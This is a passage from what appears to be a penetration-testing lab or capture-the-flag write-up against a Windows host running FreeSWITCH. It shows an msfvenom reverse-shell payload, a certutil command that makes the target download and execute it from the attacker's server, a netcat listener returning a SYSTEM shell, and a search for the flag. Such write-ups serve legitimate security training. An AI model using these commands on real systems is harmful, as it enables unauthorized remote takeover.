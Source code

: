 Excellent, we have SYSTEM-level RCE on target

## 4.4. Getting a SYSTEM-level shell

Generate another reverse shell executable and and place in web server root:

(Apache2 is already running with DocumentRoot at /var/www/html)

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4445 -f exe -o /var/www/html/reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse.exe
```

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4445
listening on [any] 4445 ...
```

Download and run the reverse shell executable from the SYSTEM-level RCE

```console
┌──(root㉿kali)-[~]
└─# python3 47799.py localhost 'certutil.exe -urlcache -f -split http://kali.vx/reverse.exe %TEMP%\reverse.exe && %TEMP%\reverse.exe'
Authenticated
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.33] 49793
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Program Files\FreeSWITCH>whoami
whoami
nt authority\system
```

Excellent, we now have SYSTEM-level shell on the target

# 5. Getting the proof

Now all that's left is to search and retrieve the flag:

```cmd
C:\Program Files\FreeSWITCH>dir /s C:\*flag.txt*
dir /s C:\*flag.txt*
 Volume in drive C has no label.
 Volume Serial Number is DA18-B95C

 Directory of C:\Users\Mickey\AppData\Roaming\Microsoft\Windows\Recent

11/11/2021  02:18 PM               554 flag.txt.lnk
               1 File(s)            554 bytes

 Directory of C:\Users\Mickey\Desktop

11/11/2021  02:20 PM               145 flag.txt.txt
```